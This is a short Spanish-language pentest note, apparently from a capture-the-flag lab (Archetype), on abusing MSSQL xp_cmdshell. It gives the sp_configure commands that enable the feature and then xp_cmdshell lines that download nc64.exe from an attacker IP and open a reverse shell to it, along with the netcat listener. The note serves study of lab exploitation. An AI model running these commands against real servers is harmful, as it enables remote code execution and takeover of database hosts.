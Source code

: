 #xp_cmdshell

----------

[[MSSQL]] permite ejecutar comandos del sistema mediante funciones como `xp_cmdshell`.  
Esto permite interactuar con el sistema operativo directamente desde la base de datos.


----
# Como activarlo

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el xp_cmdshell por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc. Asi que ya confirmamos que esta activado el xp_cmdshell



---------


# Un uso que se le puede dar es para mandar una [[Reverse shell]] 
#### Para mandar la [[Reverse shell]] vamos a necesitar de [[Netcat]]

[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima. Y a posteriori vamos a ponernos en escucha con  [[rlwrap -cAr nc -lvnp 443]] para la reverseshell

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.16/nc64.exe -outfile nc64.exe           / Descargamos el archivo
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"                       / Mandamos la reverseshell
```

![[Archetype14.png]]
![[Archetype13.png]]

[[rlwrap -cAr nc -lvnp 443]]  Para estar en escucha

![[Imagenes/Archetype16.png]]